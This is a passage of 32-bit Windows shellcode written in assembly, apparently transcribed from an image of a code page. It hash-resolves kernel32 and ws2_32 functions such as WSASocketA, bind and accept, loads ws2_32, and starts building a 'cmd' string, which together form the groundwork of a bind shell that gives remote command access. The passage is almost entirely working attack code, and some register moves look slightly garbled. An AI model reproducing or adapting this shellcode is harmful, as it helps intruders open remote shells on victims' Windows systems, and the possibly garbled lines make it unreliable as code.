 ```
    ;ExitProcess
    db 0x7e
    db 0xd8
    db 0xe2
    db 0x73
;locate_ws2_32_hashes:
    ;WSASocketA
    db 0xd9
    db 0x09
    db 0xf5
    db 0xad
    ;bind
    db 0xa4
    db 0x1a
    db 0x70
    db 0xc7
    ;socket
    db 0xa4
    db 0xad
    db 0x2e
    db 0xe9
    ;accept
    db 0xe5
    db 0x49
    db 0x86
    db 0x49
    ;WSAStartup
    db 0xcb
    db 0xed
    db 0xfc
    db 0x3b
;END DEFINE CONSTANTS
start_asm: ; start our main program
    sub esp, 0x08 ; allocate space on stack for function addresses
    mov ebp, esp ; set ebp as frame ptr for relative offset on stack
    call find_kernel32 ;find address of Kernel32.dll
    mov edx, eax
    ;resolve kernel32 symbols
    jmp short locate_kernel32_hashes ;locate address of our hashes
locate_kernel32_hashes_return: ;define return label to return to this code
    pop esi ;get constants address from stack
    lea edi, [ebp + 0x04] ;this is where we store our function addresses
    mov ecx, esi
    add ecx, 0x0C ;length of kernel32 hash list
    call resolve_symbols_for_dll
    ;resolve ws2_32 symbols
add ecx, 0x14 ;length of ws2_32 hash list
    ;create the string ws2_32 on the stack
xor eax, eax
mov ax, 0x3233
push eax
push dword 0x5f327377
mov ebx, esp ;ebx now points to "ws2_32"
push ecx
push edx
push ebx
call [ebp + 0x04] ;call LoadLibraryA(ws2_32)
pop edx ;edx now holds location of ws2_32.dll
pop ecx
mov edx, eax
call resolve_symbols_for_dll
initialize_cmd: ;push the string "cmd" onto the stack
    mov eax, 0x646d6301
```